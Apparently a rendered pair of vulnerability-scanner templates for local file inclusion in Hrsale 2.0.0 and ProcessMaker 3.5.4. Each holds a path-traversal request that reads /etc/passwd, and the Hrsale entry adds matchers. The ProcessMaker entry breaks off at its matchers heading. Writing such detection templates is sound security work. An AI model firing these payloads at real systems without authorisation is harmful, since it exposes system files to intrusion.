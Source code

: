 # Hrsale 2.0.0 - Local File Inclusion

## Description

- Hrsale 2.0.0 is vulnerable to local file inclusion. This exploit allow you to download any readable file from server without permission and login session
- severity - high
- tags - hrsale,lfi,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/download?type=files&filename=../../../../../../../../etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# ProcessMaker \<=3.5.4 - Local File Inclusion

## Description

- ProcessMaker 3.5.4 and prior is vulnerable to local file inclusion.
- severity - high
- tags - processmaker,lfi,edb

## Requests

### Step - 1

```
GET /../../../..//etc/passwd HTTP/1.1
Host: {{Hostname}}

```

### Matchers
